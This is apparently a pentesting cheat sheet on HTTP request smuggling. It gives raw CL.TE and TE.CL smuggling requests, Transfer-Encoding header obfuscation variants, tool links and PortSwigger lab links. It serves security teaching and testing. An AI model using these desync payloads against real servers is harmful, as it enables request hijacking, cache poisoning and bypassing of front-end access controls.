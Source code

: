 # Request Smuggling


### Introduction






## Summary

* [Tools](#tools)
* [CL.TE vulnerabilities](#cl.te-vulnerabilities)
* [TE.CL vulnerabilities](#te.cl-vulnerabilities)
* [TE.TE behavior: obfuscating the TE header](#te.te-behavior-obfuscating-the-te-header)
* [References](#references)

## Tools

* [HTTP Request Smuggler / BApp Store](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646)
* [Smuggler](https://github.com/defparam/smuggler)

## CL.TE vulnerabilities

> The front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header.

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

## TE.CL vulnerabilities

> The front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header. 

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

Example:

```powershell
POST / HTTP/1.1
Host: domain.example.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86
Content-Length: 4
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0


```

:warning: To send this request using Burp Repeater, you will first need to go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.You need to include the trailing sequence \r\n\r\n following the final 0.

Challenge: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

## TE.TE behavior: obfuscating the TE header

> The front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

```powershell
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
```

Challenge: https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header

## References

* [PortSwigger - Request Smuggling Tutorial](https://portswigger.net/web-security/request-smuggling) and [PortSwigger - Request Smuggling Reborn](https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn)
* [A Pentester's Guide to HTTP Request Smuggling - Busra Demir - 2020, October 16](https://blog.cobalt.io/a-pentesters-guide-to-http-request-smuggling-8b7bf0db1f0)

